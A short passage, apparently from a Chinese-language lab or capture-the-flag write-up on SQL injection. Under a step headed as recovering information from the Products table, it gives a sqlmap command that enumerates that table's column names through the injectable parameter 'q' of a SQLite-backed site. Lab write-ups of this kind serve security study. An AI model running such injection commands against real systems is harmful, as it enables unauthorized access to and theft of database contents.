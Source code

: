 ![get](./img_12/exp2/sqlmap3.png)

**5. 尝试恢复 Products 表中信息:**
**尝试恢复Products 表中的列名**
```
sqlmap -r 123.txt --level 2 -p "q" --dbms='sqlite' -T Products --columns --no-cast --threads 5
```
